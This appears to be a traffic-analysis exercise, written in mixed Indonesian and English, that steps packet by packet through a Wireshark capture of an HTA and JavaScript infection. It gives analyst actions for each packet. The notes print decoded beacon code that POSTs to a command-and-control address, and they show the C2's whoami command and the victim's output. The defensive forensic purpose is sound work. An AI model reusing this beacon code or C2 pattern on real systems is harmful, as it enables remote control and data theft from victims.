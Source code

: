 
Detail paket :

1	0.000000	192.168.1.50	198.51.100.20	TCP	54	51000 → 80 [SYN] Seq=0 Win=8192 Len=0
		Artinya	: Host 192.168.1.50 memulai koneksi TCP ke port 80 pada server 198.51.100.20. Flag = SYN (synchronise) berarti awal handshake.
		

2	1.000000	198.51.100.20	192.168.1.50	TCP	54	80 → 51000 [SYN, ACK] Seq=0 Ack=1 Win=8192 Len=0
		Artinya	: Server menjawab SYN+ACK — part kedua dari 3-way handshake. Ack=1 berarti mengakui SYN (seq+1).

3	2.000000	192.168.1.50	198.51.100.20	TCP	54	51000 → 80 [ACK] Seq=1 Ack=1 Win=8192 Len=0	
		Artinya	: Client menyelesaikan handshake dengan ACK. Sekarang koneksi terbuka,
			        Selanjutnya HTTP akan lewat koneksi ini (socket 192.168.1.50:51000 ↔ 198.51.100.20:80).

4	3.000000	192.168.1.50	198.51.100.20	HTTP	132	GET /malicious.hta HTTP/1.1 
		Artinya	: HTTP request GET. Panjang 132 bytes (ini ukuran frame pada capture).
			  Biasanya berisi header: GET /malicious.hta HTTP/1.1, Host: ..., User-Agent, Accept, dll.

		Action	: 1. Expand Hypertext Transfer Protocol di Packet Details → lihat Request Method, Request URI, Host, User-Agent.
			  2. Catat User-Agent (apakah browser atau mshta/wscript?). mshta user-agent bisa menandakan HTA dieksekusi dengan mshta.exe.
			  3. Catat Referer, cookies, any query params.

5	4.000000	198.51.100.20	192.168.1.50	HTTP	545	HTTP/1.1 200 OK  (application/hta)
		Artinya	: Server menjawab dengan HTTP/1.1 200 OK; Content-Type application/hta. Ukuran frame 545 bytes — pasti mengandung body (HTA content).
		
		Action	: 1. Di Packet Details: expand HTTP → lihat header Content-Type, Content-Length, Server, Cache-Control, Last-Modified.
			  2. Follow → TCP Stream pada koneksi ini untuk mengekstrak body HTA. Simpan body (File → Export Objects → HTTP) untuk analisis offline.
			  3. Di body HTA cari: <script> tags, eval(atob(, WScript.Shell, CreateObject("Wscript.Shell"), pemanggilan mshta inline, 
				   atau referensi ke payload.js.

6	5.000000	192.168.1.50	198.51.100.20	TCP	54	51001 → 80 [SYN] Seq=0 Win=8192 Len=0
		Artinya	: Victim membuka koneksi TCP baru (ephemeral port 51001) ke server:80. Ini tipikal saat browser/mshta membuat koneksi lain 
		          u/ memfetch resource (mis. /payload.js).
		
		Action	: apakah ada pipelining/keep-alive vs koneksi baru; jika server tidak mendukung keep-alive atau mshta requests made in separate sockets.

7	6.000000	198.51.100.20	192.168.1.50	TCP	54	80 → 51001 [SYN, ACK] Seq=0 Ack=1 Win=8192 Len=0
8	7.000000	192.168.1.50	198.51.100.20	TCP	54	51001 → 80 [ACK] Seq=1 Ack=1 Win=8192 Len=0
		Artinya	: Handshake Complete

9	8.000000	192.168.1.50	198.51.100.20	HTTP	127	GET /payload.js HTTP/1.1 
		Artinya	: Victim requests JavaScript resource payload.js. Ukuran 127 bytes (header only).

		Action	: sama seperti paket 4 — lihat Host, User-Agent (mshta?), Accept, referer (mengarah ke /malicious.hta), 
		           Connection: keep-alive etc.
		
10	9.000000	198.51.100.20	192.168.1.50	HTTP	428	HTTP/1.1 200 OK  (application/javascript)
		Artinya	: Server returns JS body (Content-Type application/javascript). Body akan mengandung
			        obfuscated JS (mis. eval(atob('<base64>'))) atau XHR routines. Ukuran cukup besar (428 bytes) ->
			  
		Action	: 1. Follow → TCP Stream (for the 51001↔80 stream) and extract payload.js.
			  2. Jika JS contains eval(atob('...')), salin base64 and decode.
			  3. Cari in decoded JS: XHR/fetch calls to C2 (/c2), beacon ids, user-agent spoofing, timing/interval functions.
			  4. hasil decode "function beacon(){var xhr=new XMLHttpRequest();xhr.open('POST','http://198.51.100.30/c2',false);
					   xhr.setRequestHeader('Content-Type','application/x-www-form-urlencoded');xhr.send('beacon_id=abc123');}
					   beacon();"	

11	10.000000	192.168.1.50	198.51.100.30	TCP	54	52000 → 80 [SYN] Seq=0 Win=8192 Len=0
		Artinya	: Victim sekarang membuka konkesi ke C2 server 198.51.100.30 melalui port 80 (new handshake). di triggered oleh payload.js (beacon).

		Action	: cek DNS resolution untuk 198.51.100.30 earlier? (Check DNS queries di pcap). jika C2 menggunakan domain, note mapping. 
			  cek juga TTL and MACs.

12	11.000000	198.51.100.30	192.168.1.50	TCP	54	80 → 52000 [SYN, ACK] Seq=0 Ack=1 Win=8192 Len=0
		Artinya	: server replies SYN+ACK.

13	12.000000	192.168.1.50	198.51.100.30	TCP	54	52000 → 80 [ACK] Seq=1 Ack=1 Win=8192 Len=0
		Artinya : Connection established to C2. Now application data (HTTP POST) will follow.

14	13.000000	192.168.1.50	198.51.100.30	HTTP	186	POST /c2 HTTP/1.1  (application/x-www-form-urlencoded)
		Artinya	: Victim posts data ke /c2. Payload type urlencoded — likely beacon_id=abc123 atau yang mirip.
		          Size 186 bytes includes headers + body.

		Action	: 1. Follow → TCP Stream for this TCP connection and view the POST body. Di Wireshark, 
			     expand HTTP → check Line-based text data for POST body.
			  2. Catat Host header (controller.example?), User-Agent, Referer (bisa jadi original HTA host), Content-Length.
			  3. save the POST body (it may contain victim id, OS info, or other metadata). This is direct C2 communication.

15	14.000000	198.51.100.30	192.168.1.50	HTTP	124	HTTP/1.1 200 OK  (text/plain)
		Artinya	: C2 merespon dengan plaintext body — contoh seperti whoami. Size 124 bytes termasuk headers & body.
		
		Action	: Follow TCP stream u/ lihat detail. 
			  Jika detail terdapat whoami, ini adalah perintah agar dapat di eksekusi oleh JS (synchronous XHR).	
				whoami
				output=DOMAIN%5Cvictim_user
				HTTP/1.1 200 OK
				Content-Length: 2

16	15.000000	192.168.1.50	198.51.100.30	HTTP	197	[TCP Out-Of-Order] POST /c2 HTTP/1.1  (application/x-www-form-urlencoded)				
		Artiya	: 1. TCP Out-Of-Order di Wireshark berarti Wireshark menerima paket dengan sequence number yang
			     tidak cocok dengan yang diharapkannya sekarang — contoh: Wireshark sudah menerima paket
			     dengan seq N+X, lalu menerima paket dengan seq N (lebih kecil), atau paket tiba lebih lambat
			     sehingga urutan capture berbeda dari urutan transmisinya. Penyebab umum:
			     a. Paket retransmission dari host karena ACK hilang.
			     b. Jaringan mengalami reordering (multi-path routing).
			     c. Duplikasi atau capture artifact (capture point sees packets via two interfaces).	

			 2. Paket 16 adalah POST lagi (kemungkinan berisi output dari eksekusi perintah whoami,
			    atau POST kedua dengan hasil). Karena ada POST sebelumnya (paket 14), paket 16 bisa:
			    a. retransmit dari victim karena ACK sebelumnya belum diterima/sampai; atau
			    b. permintaan baru yang dikirim segera setelah menerima command; namun label Out-Of-Order 
					   menunjukkan seq/ack tidak runtun menurut Wireshark.

17	16.000000	198.51.100.30	192.168.1.50	HTTP	94	HTTP/1.1 200 OK 
		Artinya	: C2 mengakui POST terakhir; final 200 OK
			  Cek Body u/ konfirmasi OK.


langkah-Langkah Cek di wireshark :

		1.	ip.src == 192.168.1.50 && ip.dst == 198.51.100.20 && http
		2.	TCP streams (right-click → Follow → TCP Stream) dan simpan body (Save as).
		3.	Extract Hta/Js : Menu File → Export Objects → HTTP → cari entry /malicious.hta dan /payload.js → Save.
					 ika JS berisi eval(atob('...')) → copy base64 string → decode:
		4.	Periksa C2 POST bodies: 
						ip.addr==192.168.1.50 && ip.addr==198.51.100.30 && http.request.method == "POST"
			Follow TCP Stream untuk melihat form body (beacon_id=..., output=...) dan server responses.
		5.	Analisa Out-Of-Order:
						Pilih packet 16 → Packet Details → TCP → lihat Seq/Ack.
						Gunakan Analyze → Expert Information untuk melihat apakah Wireshark menandai 
								  Retransmission/Out-of-Order/Duplicate ACK.						 
